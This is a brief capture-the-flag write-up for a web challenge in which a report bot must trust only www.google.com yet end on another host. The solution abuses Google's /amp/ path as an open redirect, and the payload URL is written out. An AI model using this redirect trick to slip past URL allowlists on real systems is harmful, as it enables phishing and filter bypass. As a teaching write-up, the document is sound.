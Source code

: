 ## Can you redirect me

Category: Web  

## Challenge
To get the flag, we need to satisfy this condition:
```js
if(new URL(final_url).hostname != "www.google.com"){
    res.status(200);
    res.send("<script>alert('FLAG{**REDACTED**}');history.back()</script>")
    return
}
```
This means the bot will only give the flag if the final redirect location is NOT www.google.com

But the first request checks:
```js
if(url.hostname != "www.google.com"){
    res.status(400);
    res.send("I ONLY trust GOOGLE");
    return
}
```

##Solution

Use Google open redirect with /amp/

![image](https://github.com/user-attachments/assets/4059a7ef-e8db-4ef1-b45e-98d8de7ededa)

Payload:
```
https://www.google.com/amp/httpforever.com
```
Final request:
```
/report?url=https://www.google.com/amp/httpforever.com
```
